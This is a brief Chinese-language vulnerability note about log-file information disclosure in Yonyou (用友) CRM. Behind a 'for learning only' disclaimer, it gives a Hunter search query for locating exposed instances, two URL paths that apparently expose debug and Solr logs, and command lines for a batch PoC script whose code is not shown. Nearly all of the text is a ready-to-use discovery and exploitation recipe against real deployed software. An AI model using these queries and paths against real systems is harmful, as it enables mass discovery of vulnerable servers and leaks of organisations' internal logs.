

# 某友CRM存在日志信息泄露

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

hunter：app.name="用友 CRM

POC:

/datacache/crmdebug.log

/datacache/solr.log

批量poc(记得安装库)

python poc.py -u 

python poc.py -f  .txt

